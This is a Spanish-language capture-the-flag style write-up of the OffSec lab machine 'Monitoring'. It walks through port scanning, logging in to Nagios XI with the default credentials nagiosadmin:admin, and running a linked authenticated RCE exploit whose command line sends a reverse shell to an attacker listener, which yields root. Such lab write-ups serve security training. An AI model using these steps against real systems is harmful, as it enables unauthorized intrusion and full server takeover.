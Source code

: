 ```yaml
---
description: '✍️ Autor: OffSec 🔍 Dificultad: Fácil'
---
```


# Monitoring

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.197.136
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 192.168.197.136
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como se puede observar durante el escaneo, los siguientes puertos se encuentran abiertos:

* **Puerto 22**, correspondiente al servicio **SSH**.
* **Puerto 25**, correspondiente al servicio **SMTP**.
* **Puerto 80**, correspondiente al servicio **HTTP**.
* **Puerto 389**, correspondiente al servicio **LDAP**.
* **Puerto 443**, correspondiente al servicio **HTTPS**.

Dado que estos servicios están accesibles, se procederá a realizar un análisis más detallado sobre cada uno de ellos con el fin de identificar posibles vectores de ataque o configuraciones incorrectas.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,389,443 -v 192.168.197.136
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es una página de Nagios XI y al dar a acceder se nos muestra el panel de Login. Tras buscar las contraseñas por defecto nos logueamos (nagiosadmin:admin).

{% embed url="https://bobcares.com/blog/nagios-reset-password-for-nagiosadmin/" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando la página encontramos una versión por lo que miramos a ver si tiene un exploit.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Sí tiene exploit por lo que lo ejecutamos y así conseguimos una ejecución remota de código.

{% embed url="https://www.rapid7.com/db/modules/exploit/linux/http/nagios_xi_mibs_authenticated_rce/" %}

{% @github-files/github-code-block url="https://github.com/hadrian3689/nagiosxi_5.6.6/blob/main/exploit.py" %}

Nos descargamos el exploit y lo ejecutamos.

```bash
python3 exploit.py -t http://192.168.197.136/ -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.157-lp 4444
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mientras nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

y sí somos **root**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
